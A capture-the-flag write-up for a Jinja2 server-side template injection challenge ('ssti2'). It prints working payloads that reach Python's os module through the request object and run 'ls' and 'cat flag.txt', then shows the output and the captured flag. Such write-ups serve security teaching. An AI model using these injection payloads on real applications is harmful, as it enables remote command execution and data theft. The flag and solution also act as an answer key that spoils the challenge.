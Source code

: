 # ssti2

## What it is

Same as ssti1 but the flag is not in app.py

## Solution

Using the request object we can get access to the ```os``` module and use ```popen()``` to run bash commands ([source](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/#rce-bypassing-as-much-as-i-possibly-can)).

List files in the current directory:
```py
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```

Result:
```
app.py
config.py
flag.txt
index.html
```

To open ```flag.txt```:
```py
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}
```

flag: ```BFS{w0w_1_C4n_R3ad_Fl4g_W1th_Pyth0n_SST1}```
